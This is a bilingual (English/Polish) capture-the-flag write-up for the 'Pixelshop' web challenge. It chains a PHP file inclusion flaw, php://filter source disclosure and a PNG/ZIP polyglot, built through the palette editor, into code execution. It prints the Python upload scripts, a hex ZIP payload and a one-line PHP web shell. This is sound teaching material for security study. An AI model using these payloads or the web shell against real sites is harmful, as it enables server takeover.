


## Pixelshop (Web, 300 points, 15 solves)

	Everyone loves pixel art, and thanks to PixelShop you can now create pixel art from your browser! Exciting!

###ENG
[PL](#pl-version)

We get access to a webpage where we can upload icons (max 32x32) or even draw an icon with built-in editor.
Those icons are then placed in /uploads directory with random name as png files.
First thing we notice is the navigation on the page handled by a GET parameter `op`, eg `http://pixelshop.pwning.xxx/?op=upload`
We try to put some other values there and we determine that it's a file inclusion for `.php` files.
We use php filter-wrapper `php://filter/read=convert.base64-encode/resource=` to force base64 encoding of the included pages eg:

`http://pixelshop.pwning.xxx/?op=php://filter/read=convert.base64-encode/resource=index`

This way we extract all source files (see [src](src) directory).
Sources analysis brings us to conclusion that:

- The page only includes `.php` files because the extension is always added, and it's a new PHP so no null-byte poisoning
- Any uploaded image will always have `.png` extension
- We can only upload a proper image to the webpage
- The image is stripped from metadata so no way to smuggle something in exif
- We can manually set palette and image pixels using the built-in image edit feature of the webpage.

The first issue we had to overcome was the ability to include a file of our choosing.
It took us a while to figure out the approach but then we come up with an idea that if wrappers helped us once, they might help again.
There is a `zip://` wrapper which enables unzipping archives on the fly and provides access to the stored files.
This means that it's possible to run: `zip://path_to_zip#file_name` as `include()` argument and this way you can include the file from zip.
This means that if we could upload a zip archive with a php file inside to the webpage, we could then include it via:

`http://pixelshop.pwning.xxx/?op=zip://uploads/our_zip%23file_inside`

And this would unpack the archive and include `file_inside.php` file to the page.
This fixes the problem with file extension since we can control extension of the file inside zip.
But there is still problem with how to upload a zip file when we can only upload a valid image file.
It turns out a proper png file can be also a proper zip file!
And the `zip://` does not take extension into consideration so it can unzip a `.png` file just as well, as long as it's a zip file.

We couldn't simply upload our rigged png file since it would be processed by the page, but we could edit it afterwards.
The edit feature provides API to set palette and pixels using JSON. 
Palette is very interesting because it is stored in consecutive bytes inside the PNG file.
Palette needs to come as triplets (for RGB) so we prepare a function to convert given binary payload into palette bytes string:

```python
def form_payload(payload):
    b = ["{:02x}".format(ord(c)) for c in binascii.unhexlify(payload)]
    for i in range(3-(len(b) % 3)): # padding
        b.append("00")
    data = []
    for i in range(0, len(b), 3):
        data.append('"#%s%s%s"' % (b[i], b[i + 1], b[i + 2]))
    return ",".join(data)
```

And we prepare a script to edit selected uploaded png file on the webpage and to set our payload as palette bytes:

```python
def edit_file(imagekey, palette_payload):
    base_url = "http://pixelshop.pwning.xxx/"
    url = base_url + "?op=save"
    img = ",".join(['0' for i in range(32 * 32)])
    payload = form_payload(palette_payload)
    jsonData = """
     {
       "pal": [%s],
       "im":[%s]
     }
    """ % (payload, img)
    data = {"imagekey": imagekey, "savedata": jsonData}
    result = requests.post(url, data=data)
    print(result.content)
    image_url = base_url + "uploads/" + imagekey + ".png"
    png = requests.get(image_url)
    print(" ".join("{:02x}".format(ord(c)) for c in png.content))
```

We execute this with our crafted zip payload:

`payload_raw = "504B0304140000000800EE769148F0D042901D0000002100000005000000732E706870B3B12FC82850508977770D89564F548FD5803293D46335ADEDED78B900504B01021400140000000800EE769148F0D042901D00000021000000050000000000000001002000000029000000732E706870504B0506000000000100010033000000690000000000"`

And we get an image file uploaded on the server:

 

Which can be also unzipped, and inside stores `s.php` file with a simple PHP shell inside

```php
<?php $_GET['a']($_GET['b']); ?>
```

With this file safely uploaded in the server as `847cf5ebb78615e61ab646189e3ffbff138801ad.png` we can finally run:

`http://pixelshop.pwning.xxx/?a=system&b=ls&op=zip://uploads/847cf5ebb78615e61ab646189e3ffbff138801ad.png%23s`

Which runs `system('ls /')`.





And we finally get the flag:

`PCTF{P1x3Ls_ar3_nIc3_but_Sh311_15_sw33ter_b271ea7f} `

###PL version

Dostajemy dostęp do strony pozwalającej na uploadowanie ikonek (max 32x32) oraz na rysowanie/edytowanie ikonek przez wbudowany edytor.
Ikonki są następnie zapisywane w katalogu /uploads z losową nazwą jako pliki png.
Pierwsza rzecz którą zauważyliśmy to fakt, że nawigacja strony odbywa się za pomocą parametru GET `op`, np. `http://pixelshop.pwning.xxx/?op=upload`
Próba umieszczania tam różnych wartości pozwala stwierdzić że ten parametr jest używany jako argument dla include plików `.php`
Wykorzystaliśmy więc filtr-wrapper php `php://filter/read=convert.base64-encode/resource=` żeby wymusić konwersje pliku do base64 przed includowaniem:

`http://pixelshop.pwning.xxx/?op=php://filter/read=convert.base64-encode/resource=index`

We ten sposób uzyskujemy źródła wszystkich plików (patrz katalog [src](src)).
Analiza źródeł pozwala stwierdzić że:

- Strona includuje tylko pliki `.php` ponieważ rozszerzenie jest zawsze doklejane, a jest to nowa wersja PHP niepodatna na null-byte poisoning
- Każdy uploadowany plik będzie miał rozszerzenie `.png`
- Możemy uploadować tylko poprawne obrazki
- Obrazek jest czyszczony z metadanych więc nie ma możliwości przmycić czegoś w exif
- Możemy ręcznie ustawić palete oraz piksele obrazu przez wbudowaną w stronę funkcje edycji ikonek

Pierwszy problem który musieliśmy pokonać to includowanie wybranego przez nas pliku.
Chwile zajęło nam dojście do rozwiązania, ale wreszcie pomyśleliśmy że skoro wrappery pomogły raz to mogą i drugi.
PHP udostępnia wrapper `zip://` który pozwala w locie odpakować archiwum i uzyskać dostęp do jego zawartości.
To oznacza że można wykonać `zip://path_to_zip#file_name` jako parametr `include()` i tym samym includować plik z wnętrza zipa.
To oznacza że gdybyśmy mogli uploadować archiwum zip z plikiem php w środku, to moglibyśmy includować ten plik przez:

`http://pixelshop.pwning.xxx/?op=zip://uploads/our_zip%23file_inside`

I to pozwoliłoby odpakować archiwum i includować plik `file_inside.php` na stronę.
To rozwiązuje problem z rozszerzeniem pliku, ponieważ kontroluejmy rozszerzenie pliku wewnąrz zipa.
Nadal pozostaje jednak problem uploadowania archiwum zip podczas gdy strona pozwala umieszczać tylko poprawne obrazki.
Okazuje się jednak że poprawny plik png może jednocześnie być poprawnym archiwum zip!
A wrapper `zip://` nie bierze pod uwagę rozszerzenia piku więc może odpakować plik `.png` o ile jest to poprawne archiwum.

Nie mogliśmy po prostu uploadować przygotowanego pliku png ponieważ zostałby przez stronę przetworzony, ale mogliśmy do edytować.
Funkcja edycji udostępniała API do ustawiania palety oraz pixeli przez JSONa.
Paleta jest wyjątkowo interesująca bo jest składowana jako kolejne bajty w pliku PNG.
Paleta była przyjmowana jako trójki (RGB) więc przygotowaliśmy funkcje konwertujacą podany payload na palete:

```python
def form_payload(payload):
    b = ["{:02x}".format(ord(c)) for c in binascii.unhexlify(payload)]
    for i in range(3-(len(b) % 3)): # padding
        b.append("00")
    data = []
    for i in range(0, len(b), 3):
        data.append('"#%s%s%s"' % (b[i], b[i + 1], b[i + 2]))
    return ",".join(data)
```

A następnie przygotowaliśmy skrypt edytowal plik png na stronie i ustawiał jako palete wybrane przez nas bajty:

```python
def edit_file(imagekey, palette_payload):
    base_url = "http://pixelshop.pwning.xxx/"
    url = base_url + "?op=save"
    img = ",".join(['0' for i in range(32 * 32)])
    payload = form_payload(palette_payload)
    jsonData = """
     {
       "pal": [%s],
       "im":[%s]
     }
    """ % (payload, img)
    data = {"imagekey": imagekey, "savedata": jsonData}
    result = requests.post(url, data=data)
    print(result.content)
    image_url = base_url + "uploads/" + imagekey + ".png"
    png = requests.get(image_url)
    print(" ".join("{:02x}".format(ord(c)) for c in png.content))
```

Wykonujemy ten skrypt z przygotowanym payloadem zip:

`payload_raw = "504B0304140000000800EE769148F0D042901D0000002100000005000000732E706870B3B12FC82850508977770D89564F548FD5803293D46335ADEDED78B900504B01021400140000000800EE769148F0D042901D00000021000000050000000000000001002000000029000000732E706870504B0506000000000100010033000000690000000000"`

I dostajemy na serwerze plik:

 

Który może zostać odpakowany a w środku zawiera plik `s.php` z prostym php shellem:

```php
<?php $_GET['a']($_GET['b']); ?>
```

Z tym plikiem bezpiecznie leżącym na serwerze jako `847cf5ebb78615e61ab646189e3ffbff138801ad.png` możemy wreszcie uruchomić:

`http://pixelshop.pwning.xxx/?a=system&b=ls&op=zip://uploads/847cf5ebb78615e61ab646189e3ffbff138801ad.png%23s`

Co daje nam przykładowo `system('ls /')`.


I finalnie dostajemy flagę:

`PCTF{P1x3Ls_ar3_nIc3_but_Sh311_15_sw33ter_b271ea7f} `
